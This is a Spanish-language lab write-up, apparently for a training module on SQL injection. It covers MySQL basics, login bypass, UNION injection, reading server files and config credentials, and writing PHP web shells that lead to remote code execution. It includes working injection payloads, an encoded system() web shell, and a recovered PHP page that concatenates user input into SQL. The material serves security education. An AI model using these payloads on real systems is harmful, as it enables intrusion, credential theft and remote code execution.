

# SQL Injection Fundamentalsf



## MySQL

### Intro to MySQL

#### Preguntas

**Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?**

```
mysql --skip-ssl -h 94.237.50.221 -P 33445 -u root -p
```

<figure><figcaption></figcaption></figure>

### SQL Statements

**What is the department number for the 'Development' department?**

```
show DATABASES;
use employees;
show TABLES;
select * from departments;
```

<figure><figcaption></figcaption></figure>

### Query Results

**What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

```
 SELECT last_name FROM employees WHERE first_name LIKE 'Bar%' AND hire_date = '1990-01-01';
```

<figure><figcaption></figcaption></figure>

### SQL Operators

**In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

```
SELECT COUNT(*) AS num_records FROM titles WHERE emp_no > 10000 OR title NOT LIKE '%engineer%';
```

<figure><figcaption></figcaption></figure>

## SQL Injections

<figure><figcaption></figcaption></figure>

### Subverting Query Logic

| `'` | `%27` |
| --- | ----- |
| `"` | `%22` |
| `#` | `%23` |
| `;` | `%3B` |
| `)` | `%29` |

#### Preguntas

**Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

<figure><figcaption></figcaption></figure>

### Using Comments

#### Preguntas

**Login as the user with the id 5 to get the flag.**

<figure><figcaption></figcaption></figure>

### Union clauses

#### Preguntas

**Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.**

```
show DATABASES;
use employees;
describe employees;
describe departments;
SELECT COUNT(*) AS employees_count FROM employees; -> nos devuelve 554
SELECT COUNT(*) AS departments_count FROM departments; -> nos devuelve 9
#Lo sumamos
SELECT (SELECT COUNT(*) FROM employees) + (SELECT COUNT(*) FROM departments) AS expected_sum;
```

<figure><figcaption></figcaption></figure>

### Union Injection

#### Preguntas

**Use a Union injection to get the result of 'user()'**

Primero vemos cuántas columnas son.

```
' UNION select 1,2,3,4-- -
```

Ahora hacemos que nos imprima en una columna el resultado.

```
' UNION SELECT 1, user(), 3, 4-- -
```

<figure><figcaption></figcaption></figure>

## Exploitation

### Database Enumeration

#### Preguntas

**What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**

Primero vemos cuántas columnas.

```
' UNION select 1,2,3,4-- -
```

Como ya sabes que la consulta tiene **4 columnas** y la página imprime las **columnas 2, 3 y 4**, usamos este UNION.

```
cn' UNION SELECT 1, username, password, 4
FROM ilfreight.users
WHERE username='newuser'-- -
```

<figure><figcaption></figcaption></figure>

### Reading Files

#### Preguntas

**We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

Primero vemos cuántas columnas.

```
' UNION select 1,2,3,4-- -
```

Como ya sabes que la consulta tiene **4 columnas** y la página imprime las **columnas 2, 3 y 4**, usamos esto.

```
' UNION SELECT 1, TO_BASE64(LOAD_FILE('/var/www/html/search.php')), 3, 4-- -
```

<figure><figcaption></figcaption></figure>

Al decodificarlo en base64 sale el siguiente código.

```
<?php
include "config.php";
?>
<html lang="en"><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>Search Ports</title>

    <link href="./style.css" rel="stylesheet">
	</head>

  <body>
  <div class="container-narrow" style="width:820px">
		
		
		<div class="response" style="background-color: #28ACE2; width:820px"> 
		
			<p style="color:white">
			<table class="response" style="background-color: #28ACE2">
			<form method="GET" autocomplete="off">
			
			<tr>
				<td>
					Search for a port:  
				</td>
				<td>
					<input type="text" id="port_code" name="port_code">&nbsp;&nbsp;
				</td>
				<td>
					<input type="submit" value="Search"/> 
				</td>
			</tr>
	</table>
				
			</p>

		</form>
        </div>
    
        
		<br />
<div class="searchheader" style="color:white;background-color: white">
<table class="tabl pure-table">	
<thead>
    
	<tr class="rowz"> 
    <td style="width:500px" colspan=3 >
        <b>Port Code</b>
    </td>
    
    <td style="width:500px" colspan=3 >
        <b>Port City</b>
    </td>
    
    <td style="width:500px" colspan=3>
        <b>Port Volume</b>
    </td>
 
</tr>
</thead>
<tbody>

<?php
if (isset($_GET["port_code"])) {
$q = "Select * from ports where code like '%".$_GET["port_code"]."%'";

$result = mysqli_query($conn,$q);
if (!$result)
{
		die("</table></div><p style='font-size: 15px'>".mysqli_error($conn)."</p>");
}
while($row = mysqli_fetch_array($result))
  {
  echo "<tr><td style=\"width:400px\" colspan=3>".$row[1]."</td><td style=\"width:400px\" colspan=3>".$row[2]."</td><td style=\"width:450px\" colspan=3>".$row[3]."</tr>";
  }
}
?>
</tbody>
</table>
	</div>

	  
	  
	  
	</div> <!-- /container -->
  
</body>
</html>
<style>
</style>
```

Vamos a leer **/var/www/html/config.php** con `LOAD_FILE()` vía UNION y, para que no se renderice HTML/PHP raro, lo envolvemos en **Base64**.

```
' UNION SELECT 1, TO_BASE64(LOAD_FILE('/var/www/html/config.php')), 3, 4-- -
```

<figure><figcaption></figcaption></figure>

Ahora lo decodificamos y nos sale lo siguiente.

```
<?php

$config=array(
'DB_HOST'=>'localhost',
'DB_USERNAME'=>'root',
'DB_PASSWORD'=>'dB_pAssw0rd_iS_flag!',
'DB_DATABASE'=>'ilfreight'
);

$conn = mysqli_connect($config['DB_HOST'], $config['DB_USERNAME'], $config['DB_PASSWORD'], $config['DB_DATABASE']);

if (mysqli_connect_errno($conn))
  {
  	echo "Failed connecting. " . mysqli_connect_error() . "<br/>";
  }

?>
```

### Writing Files

#### Preguntas

**Find the flag by using a webshell.**

Primero subimos la webshell en Base64.

```
' UNION SELECT "", FROM_BASE64('PD9waHAgc3lzdGVtKCRfR0VUWzBdKTsgPz4='), "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```

<figure><figcaption></figcaption></figure>

Buscamos en el navegador.

<figure><figcaption></figcaption></figure>

Buscamos entonces dónde se encuentra la flag.

<figure><figcaption></figcaption></figure>

Mostramos contenido.

<figure><figcaption></figcaption></figure>

## Skills Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

Nos encontramos un panel de login y lo bypasseamos con una inyección básica.

```
' OR 1=1 LIMIT 1-- -'
```

Estamos dentro.

<figure><figcaption></figcaption></figure>

Vamos a ver cuántas columnas tiene.

```
'UNION+SELECT+1,2,3,4,5--+-
```

<figure><figcaption></figcaption></figure>

Sabiendo el número de columnas (5) vamos a enumerar los usuarios.

```
'+UNION+SELECT+NULL,NULL,NULL,USER(),NULL--+-
```

<figure><figcaption></figcaption></figure>

Ya sabemos el usuario por lo que hay que ver que privilegios tiene.

```
'+UNION+SELECT+NULL,grantee,privilege_type,NULL,NULL+FROM+information_schema.user_privileges+WHERE+grantee%3d"'root'%40'localhost'"--+
```

<figure><figcaption></figcaption></figure>

Vemos que tenemos permiso en **FILE** y eso indica que puede tanto escribir y leer en el backend. Comprobamos **secure\_file\_priv** si podemos escribir datos.

```
'+UNION+SELECT+1,2,3,+variable_name,+variable_value+FROM+information_schema.global_variables+where+variable_name%3d"secure_file_priv"--+-
```

<figure><figcaption></figcaption></figure>

Eso significa que podemos escribir datos por lo que hacemos una web shell.

```
'+union+select+"","",'<%3fphp+system($_REQUEST[0])%3b+%3f>',+"",+""+into+outfile+'/var/www/html/shell.php'--+-
```

<figure><figcaption></figcaption></figure>

Nos salta un error pero de las tres condiciones necesarias, el usuario ya cuenta con el privilegio **FILE** habilitado y además la variable global **secure\_file\_priv** de MySQL no está activa, por lo que el problema debe encontrarse en la tercera condición, es decir, en la falta de permisos de escritura en la ubicación del servidor donde se pretende guardar el archivo.

```
'+union+select+"","",'<%3fphp+system($_REQUEST[0])%3b+%3f>',+"",+""+into+outfile+'/var/www/html/dashboard/shell.php'--+-
```

<figure><figcaption></figcaption></figure>

Accedemos a la web shell.

<figure><figcaption></figcaption></figure>

Listamos los archivos.

<figure><figcaption></figcaption></figure>

Mostramos el contenido de la flag.

<figure><figcaption></figcaption></figure>
